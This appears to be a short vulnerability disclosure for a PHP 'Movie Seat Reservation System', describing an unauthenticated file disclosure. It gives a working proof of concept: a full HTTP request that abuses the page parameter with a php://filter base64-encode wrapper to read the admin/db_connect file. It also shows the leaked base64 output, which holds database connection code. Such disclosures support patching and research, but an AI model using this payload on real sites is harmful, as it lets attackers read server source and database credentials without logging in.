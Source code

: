 # Movie Seat Reservation System File Disclosure
* `Note` => don't need login 
# Exploit 
* Exploit with Burp Suite 
```python
http://192.168.1.101:8080/Movie_Seat_Reservation_System/index.php?page=home
```
![image](https://user-images.githubusercontent.com/79050415/160242883-2539e290-9b33-4267-a38b-a2d37563b0a2.png)
* Use Burp Suite capture request and payload => `Send`
![image](https://user-images.githubusercontent.com/79050415/160242922-7c29a7ac-787f-47b8-9052-6c5c2d7495cb.png)
* Then decode `Base64` 
```python3
 PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyb290JywnJywndGhlYXRlcl9kYicpb3IgZGllKCJDb3VsZCBub3QgY29ubmVjdCB0byBteXNxbCIubXlzcWxpX2Vycm9yKCRjb24pKTsNCg==    
```
![image](https://user-images.githubusercontent.com/79050415/160243014-eff96877-37c4-41ba-b4ed-0359cbbece7b.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/160243179-1a4d1053-eb75-4a8c-9965-52d3eaeb5b18.png)
# POC 
* `Request`
```python
GET /Movie_Seat_Reservation_System/index.php?page=php://filter/convert.base64-encode/resource=admin/db_connect HTTP/1.1
Host: 192.168.1.101:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Movie_Seat_Reservation_System/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=0722dtqnb1dgvuono8uubajcae
Connection: close
```
